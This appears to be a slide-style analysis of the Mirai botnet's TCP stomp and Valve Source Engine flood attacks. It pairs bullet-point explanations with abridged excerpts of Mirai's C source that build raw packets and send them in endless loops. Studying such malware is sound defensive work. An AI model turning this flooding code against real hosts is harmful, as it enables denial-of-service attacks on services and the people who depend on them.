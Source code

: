 -> # Mirai <-

-> ## attacks!? <-

* TCP stomp flood
    - doesn't begin the attack until a connection is established
    - similar to ACK flood
        + input rate: about *90Mb/sec* (performed on a Raspberry Pi)
    - receives a sequence number: may trick security protections
<br>

~~~ {.numberLines}
connect(fd, (struct sockaddr *)&addr, sizeof (struct sockaddr_in));

while (TRUE) {
    ...
    iph->id = rand_next() & 0xffff;
    tcph->seq = htons(stomp_data[i].seq++);
    tcph->ack_seq = htons(stomp_data[i].ack_seq);
    tcph->check = checksum_tcpudp(iph, tcph, 
                    htons(sizeof (struct tcphdr) + data_len), 
                    sizeof (struct tcphdr) + data_len);

    sendto(rfd, pkt, sizeof (struct iphdr) + sizeof (struct tcphdr) +
     data_len, MSG_NOSIGNAL, (struct sockaddr *)&targs[i].sock_addr, 
     sizeof (struct sockaddr_in));

}
~~~~~~~~~~~~~~~~~~

-------------------------------------------------

-> # Mirai <-

-> ## attacks!? <-

* valve source engine flood
    - similar to UDP flood
        + input rate: about *160Kb/sec*
    - random source port, destination port _27015_
        + streaming/gaming
        + half-life
        + counter strike
    - payload includes a source engine query
<br>

~~~ {.numberLines}
vse_payload = table_retrieve_val(TABLE_ATK_VSE, &vse_payload_len);

udph->source = htons(sport);
udph->dest = htons(dport);
udph->len = htons(sizeof (struct udphdr) + 4 + vse_payload_len);

*((uint32_t *)data) = 0xffffffff;
data += sizeof (uint32_t);

while (TRUE) {
    ...

    sendto(fd, pkt, sizeof (struct iphdr) + sizeof (struct udphdr) + 
    sizeof (uint32_t) + vse_payload_len, MSG_NOSIGNAL, 
    (struct sockaddr *)&targs[i].sock_addr, 
    sizeof (struct sockaddr_in));
}
~~~~~~~~~~~~~~~~~~
